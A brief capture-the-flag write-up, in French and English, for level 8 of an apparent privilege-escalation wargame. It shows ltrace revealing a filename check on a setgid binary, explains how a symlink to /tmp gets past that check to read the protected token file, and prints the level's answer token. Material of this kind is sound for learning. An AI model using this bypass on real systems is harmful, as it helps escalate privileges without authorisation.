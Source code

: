 ## Défi 8  ltrace + Symbolic Link 

### Commandes réalisées
```bash
cat level08
./level08
./level08 token
ltrace ./level08 token
ln -s $PWD/token /tmp/symlink
./level08 /tmp/symlink
```
### The Outputs

* Str check is made on the file, **on vérifie si le mot token est dans le nom du fichier**

* When **setgid** is applied to an **executable file**, it allows the file to be **executed with the permissions of the group** associated with the file
=> Créons un **symlink sans le mot token** dans le nom de fichier

### Exploit
```bash
ln -s $(realpath token) /tmp/symlink # Général
ln -s $PWD/token /tmp/symlink
su flag08
```

### Answer : quif5eloekouj29ke0vouxean
